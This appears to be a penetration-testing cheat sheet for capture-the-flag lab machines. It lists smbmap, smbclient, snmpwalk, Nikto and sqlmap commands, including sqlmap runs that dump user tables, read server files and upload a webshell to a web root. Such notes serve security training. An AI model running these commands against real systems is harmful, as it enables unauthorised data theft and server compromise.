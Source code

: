 ## SMB:
### smbmap:
- `smbmap -H 10.10.10.123`

### smbclient:
- `smbclient --no-pass //10.10.10.123/general`
  - `get creds.txt`
  - `put`

### SNMP:
- `snmpwalk -v 1 -c public 10.10.11.136`

# INJECTIONS
## Tools:
### BURPSUIT:
- `"Send the payloads with repeater/intruder"`
### NIKTO:
- `nikto -h 10.10.11.111 -O STATIC-COOKIE="name=value"`
    - `-h` Host to scan

### OWASP ZAP
- `owasp zap`

## SQL INJECTION(SQLi)
- [HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection)
- [PayLoads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/README.md)

We want to find credentials exploring possible DBs and tables. Another way is to read files.


### sqlmap:
- `sqlmap -r request.req --dbs`
- `sqlmap -r request.req -D main --tables`
- `sqlmap -r request.req -D main -T user --columns`
- `sqlmap -r request.req -D main -T user --dump`
- `sqlmap -r req.req --level=5 --risk=3 --batch --file-read=/var/www/html/index.php>`
- `sqlmap -r req.req --level=5 --risk=3 --batch --file-write=/home/kali/Downloads/Exploit/webshell.php --file-dest=/var/www/html/webshell.php`
- `sqlmap -u "ws://soc-player.soccer.htb:9091" --data '{"id": "*"}' --threads 10 --level 5 --risk 3 --batch -D soccer_db -T accounts --dump`

    - `--dbs` Enumerate databases
    - `--tables` Enumerate DB tables
    - `--columns` Enumerate columns
    - `--dump` Get table values
    - `--level` (max 5)
    - `--risk` (max 3)
    - `--batch` Ask no questions
    - `--file-read` Path to file that we want to read from server
    - `--file-write` Path to file that we want to upload to server
    - `--file-dest` Path to location that we want to put the uploaded file
